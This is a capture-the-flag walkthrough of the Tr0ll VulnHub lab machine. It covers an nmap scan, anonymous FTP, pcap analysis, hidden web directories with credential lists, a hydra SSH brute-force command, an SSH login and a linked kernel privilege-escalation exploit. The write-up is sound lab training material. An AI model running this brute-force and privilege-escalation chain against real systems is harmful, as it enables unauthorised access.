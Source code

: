 Nmap Scan

```
# Nmap 7.40 scan initiated Thu Aug  3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102
Nmap scan report for 192.168.8.102
Host is up (0.0035s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  3 20:59:07 2017 -- 1 IP address (1 host up) scanned in 19.95 seconds
```

There are 3 open ports in tr0ll vm

* port 21
* port 22
* port 80

Since the port 80 is open, I have an idea now that the vulnerable machine has a web server running. So I opened my web browser and visit the IP address of the machine.

![](/assets/Screenshot from 2017-08-07 14-59-21.png)

So this is the first thing that I saw.

I tried to see if it has a robots.txt in the root of the web server and it showed me this.

![](/assets/Screenshot from 2017-08-07 15-02-06.png)

There is a folder called secret and showed me this.

![](/assets/Screenshot from 2017-08-07 15-03-20.png)Continuing my enumeration, I saw that the FTP server allows anonymous login, so I fired up my Filezilla and browse the FTP server. There is a file there named lol.pcap. Pcap is a file that contains the captured network traffics from network analyzers such as Wireshark and some other tools. So to open the pcap file, I launched Wireshark and read the pcap file. It showed me this.

![](/assets/Screenshot from 2017-08-03 21-37-00.png)

I noticed the "sup3rs3cr3tdirlol" and tried to open it and voila.

![](/assets/Screenshot from 2017-08-07 15-13-36.png)

I downloaded the file named roflmao then run the file command to determine the filetype of the downloaded file. It shows that it is an ELF 32-bit LSB executable.

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

So the next thing I did was to run the gdb then run the executable file.

```
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from roflmao...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/kaipowered/Documents/Vulnhub/tr0ll/roflmao 
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
(gdb)
```

The output showed me this

```
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
```

I tried to find the said address but I wasn't able to find it in the memory, so I tried opening it on the web browser and it appears that it is a directory on the web server.

![](/assets/Screenshot from 2017-08-07 15-24-34.png)I downloaded the files from the directories and it appears that the contents of the files were usernames and passwords.

There was only one service that I haven't checked, and that was the ssh.

The next thing I did was to brute force the ssh service with the given usernames and passwords.

```
hydra -L which_one_lol.txt -P Pass.txt 192.168.8.102
```

At first, the usernames and passwords combination did not work, so it was a little frustrating.

```
hydra -L which_one_lol.txt -p Pass.txt 192.168.8.102
```

But it appears that the real password is the "Pass.txt", so I just changed the option from -P to -p, meaning, with the given password, try the usernames from which\_one\_lol.txt to match the correct combinations with hydra.

After bruteforcing, I was able to get the username and password of the machine.

```
username: overflow
password: Pass.txt
```

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ ssh overflow@192.168.8.102
overflow@192.168.8.102's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug  6 23:35:25 2017 from 192.168.8.2
Could not chdir to home directory /home/overflow: No such file or directory
$
```

The shell timeouts after a few minutes so the first thing that I did was to check the version of the kernel and it appears that the version of the kernel is GNU/Linux 3.13.0-32-generic i686

Next thing I did was to search the exploit-db for the available privilege escalation exploits of the kernel version.

This is the exploit that I used to gain root on the vulnerable machine:

[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)

